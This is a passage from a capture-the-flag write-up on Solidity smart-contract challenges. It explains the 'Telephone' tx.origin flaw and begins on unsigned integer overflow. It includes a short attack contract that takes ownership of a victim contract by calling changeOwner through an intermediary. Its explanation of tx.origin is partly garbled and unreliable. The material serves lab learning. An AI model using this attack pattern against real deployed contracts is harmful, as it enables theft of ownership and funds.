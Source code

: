 **Challenge description**

- Claim ownership of the contract.

--------
**Analysis**

![Telephone method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138025/d794be949c9e5c756d0940618ff646c8dd477ab3f134d3973baac079ec09be4f_xqkdnr.png)  

Here we see the condition being checked is as simple as `tx.origin != msg.sender` but what does `tx.origin` means ?
Actually `tx` is a global variable in the smart contract ( same as js global variables ) and it means the transaction that have been initiated on the function call.
When we call a method from web3 actually we are interacting directly with the smart contract so it will initiate the transaction but when we call a contract from another contract the `tx.origin == caller.address` 

-----
**Exploitation**

Based on our analysis we understand all we need is to call the function from an evil contract and pass our address as parameter.

```js
interface TelephoneInterface{ 
    function changeOwner(address _owner) external; 
}

contract EvilContract { 
    
    TelephoneInterface victimContract;
    contructor(address victimAddress) public {
        victimContract = TelephoneInterface(victimAddress);
    }

    function becomeOwner(address newOwner){
        victimContract.changeOwner(newOwner);
    }
}
```

Challenge solved ✅

## Token

--------
**Analysis**

This challenge is about **unsigned integers**. We need to be extra duper careful when handling them as they *overlap*. What does that mean ? 

```c#
uint8 X= 255;
X=X+1 // X = 0 ;
```
Now you see it.
